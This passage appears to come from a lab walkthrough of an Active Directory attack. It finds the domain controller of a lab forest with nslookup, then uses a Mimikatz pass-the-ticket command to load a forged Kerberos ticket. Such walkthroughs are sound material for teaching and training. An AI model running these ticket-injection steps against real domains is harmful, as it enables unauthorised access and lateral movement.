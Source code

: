 ![picture 19](images/bfe58642c9a6815786acd2d09cae6f983aa89bc27c470eda3d787cbd766b000b.png)  

<br/>

Check the forest DC hostname:

```
nslookup -type=any _ldap._tcp.dc._msdcs.atomic.site
```

![picture 20](images/a3ef9e2bf9290e19cf37485c7380467c1e3137716c278d8f80f5c7d0db1d2a74.png)  

* IP:  `10.1.1.1`
* Hostname: `atomic-dc.atomic.site`

<br/>

Use Mimiaktz to perform PTT:

```
kerberos::ptt C:\Users\Public\forge.kirbi
```
